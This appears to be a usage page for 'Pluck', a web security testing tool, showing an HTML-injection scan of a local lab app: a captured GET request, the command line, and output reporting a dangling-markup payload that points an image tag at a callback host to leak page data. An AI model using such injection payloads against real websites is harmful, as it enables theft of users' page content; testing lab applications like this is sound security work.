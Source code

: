# Pluck



### HTML Injection GET Request

**Obtain a request and save to a file**

```http
GET /htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8888/htmli_get.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: security_level=0; PHPSESSID=ek9npeot2sop3ubofjaeul06l2
Connection: close

```

**Execute the script**

Set the module to `html_injection` and the parameters to `firstname` and `lastname`. The application found the correct payload and print out the unique ID.


```bash
python3 pluck.py -r /tmp/req -m "html_injection" -I "query" -P "firstname,lastname"
### Testing Parameters ###
URL:  http://127.0.0.1:8888/htmli_get.php?firstname=test&lastname=test&form=submit
PATH:  /htmli_get.php?firstname=test&lastname=test&form=submit
METHOD:  GET
Proxy: 127.0.0.1:8080
Parameters To Test:  ['firstname', 'lastname']
Modules to run:  ['html_injection']
Injection POints:  ['query']
[*] Executing the HTML Injection Tester module
Library Items:  1
[!] HTML Injection found in query firstname parameter with <div><img src='http://127.0.01/?r=q4OUnZcwKrcgAaBD&d= payload! Request ID: cde8bf77-b4d2-4509-8891-67b45770a8ab
```

**Found the request in burp**

Copy the request id and filter the HTTP history in burp to obtain the proper payload.




